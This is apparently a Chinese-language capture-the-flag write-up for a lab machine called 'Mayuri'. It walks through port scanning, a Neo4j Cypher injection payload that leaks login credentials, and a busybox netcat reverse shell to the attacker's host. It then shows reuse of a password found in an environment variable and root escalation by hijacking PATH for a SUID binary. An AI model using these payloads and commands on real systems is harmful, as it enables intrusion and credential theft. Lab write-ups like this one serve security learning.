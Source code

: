 # 一、信息收集

## 1. 主机发现与端口扫描

首先，在本地网络中使用 `arp-scan` 发现目标主机的 IP 地址，随后利用 `nmap` 对其进行全端口扫描，以识别开放的服务。

**主机发现:**
通过 `arp-scan` 扫描，确定目标主机 IP 为 `192.168.205.138`。

```bash
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l
...
192.168.205.138 08:00:27:cb:36:de       PCS Systemtechnik GmbH
...
```

**端口扫描与服务识别:**
`nmap` 的扫描结果显示，目标主机开放了 **22 (SSH)**、**80 (HTTP)** 和 **8080 (HTTP-Proxy)** 端口。进一步的服务版本侦测确认了 Web 服务由 Apache 2.4.62 驱动，SSH 服务为 OpenSSH 8.4p1。

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- 192.168.205.138
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

┌──(kali㉿kali)-[~]
└─$ nmap -p22,80,8080 -sC -sV 192.168.205.138
...
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: 未来道具研究所 | Future Gadget Lab
8080/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: 未来道具研究所 - Labmem 认证
...
```

## 2. Web 服务侦察

*   **80 端口**: 这是一个未来道具研究所的产品查询页面，允许用户通过 `sid` 查询商品信息。
*   **8080 端口**: 这是一个后台登录页面。

# 二、漏洞利用与初始访问

## 1. Cypher 注入漏洞发现与利用

对 80 端口的查询功能进行测试。输入 `' OR 1=1` 时，页面返回了特定的错误信息 `Error in: M?TCH (n:?h?p) whe?re n.sid = ' + sid + ' RET?RN n;`，这表明后端可能使用了 Neo4j 图数据库，并且查询语句是直接拼接构造的，存在 Cypher 注入漏洞。

经过一系列的黑盒测试与构造，最终发现以下 payload 可以绕过限制并泄露数据库中的所有节点信息：

`1 WITH 1 AS dummy MATCH (m) RETURN m AS n //`

**原理分析**:
该 payload 利用了 `WITH` 子句重置查询上下文的特性，并结合别名 `AS n` 欺骗后端应用逻辑，最后通过注释符 `//` 解决语法错误，成功执行了 `MATCH (m)` 以查询所有数据。

**信息泄露:**
执行该注入后，从返回的数据中发现了用户凭据：

*   **用户**: `Okabe`
*   **密码**: `OOOkkkaaabbbeee`

## 2. 获取初始访问权限 (www-data)

使用泄露的凭据 `Okabe:OOOkkkaaabbbeee` 成功登录 8080 端口的后台。后台提供了一个 "D-Mail 终端" 功能，这实际上是一个命令执行后门。

利用该后门执行反弹 Shell 命令，在本地监听并成功获取了一个 `www-data` 用户的 Shell。

**本地监听 (Kali):**

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888
```

**触发反弹 Shell (通过后台终端):**

```bash
busybox nc 192.168.205.128 8888 -e /bin/bash
```

成功获得 `www-data` 权限的交互式 Shell。

# 三、权限提升

## 1. 从 `www-data` 到 `kyoma`

稳定 Shell

```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 24 columns 80
```

在稳定 Shell 后，检查环境变量，发现了一个名为 `Pass` 的变量。

```bash
www-data@Mayuri:/$ env
...
Pass=1.129848
...
```

同时，发现系统中存在用户 `kyoma`。抱着尝试的心态，使用这个密码切换用户。

```bash
www-data@Mayuri:/$ su kyoma
Password: 1.129848
kyoma@Mayuri:/$ id
uid=1001(kyoma) gid=1001(kyoma) groups=1001(kyoma)
```

成功切换到 `kyoma` 用户，并在其家目录下找到第一个 flag `user.txt`。

## 2. 从 `kyoma` 到 `root`

在 `kyoma` 用户的家目录下，发现一个具有 SUID 权限的可执行文件 `TimeMachine`。

```bash
kyoma@Mayuri:~$ ls -al
...
-rwsr-xr-x 1 root root  17208 Aug  6 07:35 TimeMachine
-rw-r--r-- 1 root root     16 Aug  6 08:39 user.txt
```

使用 `strings` 命令分析该文件，发现它调用了 `system` 函数，并执行了包含 `timedatectl` 的命令，但没有使用绝对路径。

```bash
kyoma@Mayuri:~$ strings TimeMachine
...
system
...
timedateH
ctl | grH
ep 'LocaH
l time' H
...
```

这是一个典型的 **PATH 环境变量劫持**漏洞。由于 `TimeMachine` 以 `root` 权限运行，我们可以创建一个同名的恶意脚本，并修改 `PATH` 变量来劫持命令执行流程，从而以 `root` 身份执行任意代码。

**提权步骤:**

1. **创建恶意脚本**: 在 `/tmp` 目录下创建一个名为 `timedatectl` 的脚本，内容为给 `/bin/bash` 添加 SUID 权限。

   ```bash
   kyoma@Mayuri:~$ echo 'chmod +s /bin/bash' > /tmp/timedatectl
   ```

2. **赋予执行权限**:

   ```bash
   kyoma@Mayuri:~$ chmod +x /tmp/timedatectl
   ```

3. **劫持 PATH**: 将 `/tmp` 目录添加到 `PATH` 环境变量的开头。

   ```bash
   kyoma@Mayuri:~$ export PATH=/tmp:$PATH
   ```

4. **触发漏洞**: 执行 SUID 程序 `TimeMachine`。

   ```bash
   kyoma@Mayuri:~$ ./TimeMachine
   ```

   程序执行后，我们的恶意脚本 `/tmp/timedatectl` 会被以 `root` 权限调用，成功为 `/bin/bash` 添加了 SUID 位。

5. **获取 Root Shell**: 使用 `bash -p` 命令启动一个保留有效用户ID（euid）的 Shell，从而获得 `root` 权限。

   ```bash
   kyoma@Mayuri:~$ ls -al /bin/bash
   -rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
   kyoma@Mayuri:~$ bash -p
   bash-5.0# id
   uid=1001(kyoma) gid=1001(kyoma) euid=0(root) egid=0(root) groups=0(root),1001(kyoma)
   ```

# 四、夺取旗帜

成功获取 `root` 权限后，读取最终的旗帜文件。

```bash
bash-5.0# cat /home/kyoma/user.txt 
flag{1.055821%}

bash-5.0# cat /root/root.txt
flag{1.123581%}
```

渗透测试完成。这一切都是命运石之门的选择。